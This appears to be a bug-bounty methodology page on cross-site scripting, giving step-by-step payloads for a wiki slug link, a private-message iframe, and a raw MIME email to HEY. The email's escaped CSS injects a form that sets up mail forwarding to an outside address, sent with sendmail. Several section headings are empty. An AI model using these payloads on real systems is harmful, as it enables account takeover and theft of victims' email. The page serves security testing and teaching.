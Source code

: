 # Reflected Cross Site Scripting

## Check List

## Methodology

### Black Box

#### XSS Reflected

{% stepper %}
{% step %}
Log in to any platform that allows creating or editing text-based pages (such as a Wiki or documentation system)
{% endstep %}

{% step %}
Create a new page
{% endstep %}

{% step %}
In the field for the page identifier or slug, enter `javascript:`
{% endstep %}

{% step %}
Configure the page as follows

Title: `javascript:`

Format: Markdown

Content: `[XSS](.alert(1);)`
{% endstep %}

{% step %}
Save or publish the page
{% endstep %}

{% step %}
After the page is created, click the link labeled “XSS” in the page content
{% endstep %}

{% step %}
If the system is vulnerable, the JavaScript code will execute (e.g., an `alert(1)` will appear)
{% endstep %}
{% endstepper %}

***

#### XSS IN Email

{% stepper %}
{% step %}
Create a new text file (e.g. `email.txt`)
{% endstep %}

{% step %}
Put the following exact contents into the file (including headers and `Content-type: text/html`)

```http
From: jouko@klikki.fi
To: jouko@hey.com
Subject: HackerOne test
MIME-Version: 1.0
Content-type: text/html

<style>
url(cid://\00003c\000027message-content\00003e\00003ctemplate\00003e\00003cstyle\00003exxx);
url(cid://\00003c/style\00003e\00003c/template\00003e\00003c/message-content\00003e\00003cform\000020action=/my/accounts/266986/forwardings/outbounds\000020data-controller=beacon\00003e\00003cinput\000020type=text\000020name=contact_outbound_forwarding[to_email_address]\000020value=joukop@gmail.com\00003e\00003c/form\00003exxx);
</style>
```
{% endstep %}

{% step %}
Send the email using `sendmail` on Linux as an example

```bash
/usr/sbin/sendmail -t < email.txt
```

(or use any other tool capable of sending raw MIME/HTML emails)
{% endstep %}

{% step %}
Open the recipient’s HEY account and load the sent email (refresh the inbox/viewer if needed)
{% endstep %}

{% step %}
Inspect the rendered HTML to find injected tags or form elements (e.g. injected `<form ...>` or `<iframe ...>`)
{% endstep %}

{% step %}
Observe any automatic behaviors triggered by the injected HTML (such as POST requests to create forwarding or a full-window iframe)
{% endstep %}

{% step %}
Repeat with the alternative payload examples from the report (iframe-based spoof or `<script src=...>` + hcaptcha payload) to verify other exploitation vectors
{% endstep %}
{% endstepper %}

***

####

{% stepper %}
{% step %}
Go to another users profile
{% endstep %}

{% step %}
Click private message
{% endstep %}

{% step %}
Type any subject
{% endstep %}

{% step %}
Type the following message `Test<iframe src=javascript:alert(1) width=0 height=0 style=display:none;></iframe>`
{% endstep %}

{% step %}
Send the message
{% endstep %}

{% step %}
View the message (triggers the XSS)
{% endstep %}

{% step %}
Wait for the victim to read the message
{% endstep %}
{% endstepper %}

***

### White Box

## Cheat Sheet
